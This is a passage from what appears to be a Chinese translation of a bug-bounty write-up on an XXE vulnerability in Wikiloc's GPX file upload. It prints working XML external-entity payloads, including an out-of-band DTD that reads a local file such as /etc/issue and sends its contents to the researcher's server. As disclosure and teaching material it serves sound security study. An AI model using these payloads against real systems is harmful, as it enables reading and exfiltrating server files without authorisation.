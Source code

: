 之后它调用了`.gpx`文件中 13 行的记录名称中的实体。

```
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://www.davidsopas.com/XXE" > ]> 
<gpx 
version="1.0" 
creator="GPSBabel - http://www.gpsbabel.org" 
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns="http://www.topografix.com/GPX/1/0" 
xsi:schemaLocation="http://www.topografix.com/GPX/1/1 http://www.topografix.com/GPX/1/1/gpx.xsd"> 
<time>2015-10-29T12:53:09Z</time> 
<bounds minlat="40.734267000" minlon="-8.265529000" maxlat="40.881475000" maxlon="-8.037170000"/> 
<trk>
<name>&xxe;</name>
<trkseg> 
<trkpt lat="40.737758000" lon="-8.093361000"> 
<ele>178.000000</ele> 
<time>2009-01-10T14:18:10Z</time> 
(...)
```

这产生了发往服务器的 HTTP GET 请求，`GET 144.76.194.66 /XXE/ 10/29/15 1:02PM Java/1.7.0_51`。这有两个原因值得注意，首先，通过使用一个概念调用的简单证明，David 能够确认服务器求解了它插入的 XML 并且进行了外部调用。其次，David 使用现存的 XML 文件，以便时它的内容满足站点所预期的结构。虽然它没有讨论这个，调用它的服务器可能并不是必须的，如果它能够服务`/etc/passwd`文件，并将内容渲染在`<name>`元素中。

在确认 Wikiloc 会生成外部 HTTP 请求后，唯一的疑问就是，是否它能够读取本地文件。所以，它修改了注入的 XML，来让 Wikiloc 向他发送它们的`/etc/passwd`文件内容。

```
<!DOCTYPE roottag [ 
<!ENTITY % file SYSTEM "file:///etc/issue"> 
<!ENTITY % dtd SYSTEM "http://www.davidsopas.com/poc/xxe.dtd"> 
%dtd;]> 
<gpx 
version="1.0" 
creator="GPSBabel - http://www.gpsbabel.org" 
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns="http://www.topografix.com/GPX/1/0" 
xsi:schemaLocation="http://www.topografix.com/GPX/1/1 http://www.topografix.com/GPX/1/1/gpx.xsd"> 
<time>2015-10-29T12:53:09Z</time> 
<bounds minlat="40.734267000" minlon="-8.265529000" maxlat="40.881475000" maxlon="-8.037170000"/> 
<trk> 
<name>&send;</name> 
(...)
```

这看起来十分熟悉。这里他使用了两个实体，它们都在 DTD 中求值，所以它们使用`%`定义。`&send;`在`<name>`标签中的的引用实际上由返回的`xxe.dtd`文件定义，他的服务器将其发送回 Wikiloc。这里是这个文件：

```
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY % all "<!ENTITY send SYSTEM 'http://www.davidsopas.com/XXE?%file;'>"> 
%all; 
```

要注意`%all;`实际上定义了`!ENTITY send`，我们刚刚在`<name>`标签中注意到它。这里是求值的过程：
